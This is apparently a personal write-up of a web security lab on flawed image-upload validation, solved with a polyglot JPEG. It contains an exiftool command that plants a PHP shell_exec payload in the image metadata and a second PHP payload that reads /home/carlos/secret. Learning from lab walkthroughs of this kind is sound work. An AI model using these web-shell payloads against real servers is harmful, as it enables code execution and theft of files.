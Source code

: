 ## Flawed validation of the file's contents

Instead of implicitly trusting the `Content-Type` specified in a request, more secure servers try to verify that the contents of the file actually match what is expected.

In the case of an image upload function, the server might try to verify certain intrinsic properties of an image, such as its dimensions. If you try uploading a PHP script, for example, it won't have any dimensions at all. Therefore, the server can deduce that it can't possibly be an image, and reject the upload accordingly.

Similarly, certain file types may always contain a specific sequence of bytes in their header or footer. These can be used like a fingerprint or signature to determine whether the contents match the expected type. For example, JPEG files always begin with the bytes `FF D8 FF`.

This is a much more robust way of validating the file type, but even this isn't foolproof. Using special tools, such as ExifTool, it can be trivial to create a polyglot JPEG file containing malicious code within its metadata.

## Challenge

> This lab contains a vulnerable image upload function. Although it checks the contents of the file to verify that it is a genuine image, it is still possible to upload and execute server-side code.
> To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.
> You can log in to your own account using the following credentials: `wiener:peter`

--> i used exiftool to add the comment in the image with this command !

```bash
exiftool -comment="<?php echo shell_exec('cat /home/carlos/secret'); ?>" imageShell.jpeg
```

Now upload the image!

--> intercept the request and change the filename with `.php`

![](Attachments/Pastedimage20220125130219.png)

Remember that our answer will start after `6` and end before `y`

and i got this output!

![](Attachments/Pastedimage20220125130328.png)

--> In the other method you can place 2 identifiers or texts to check the password like `START` and `END`

So the payload will be like this :

```php
<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>
```

--> And when you send the above request you can see the secret between 2 texts `START` and `END`
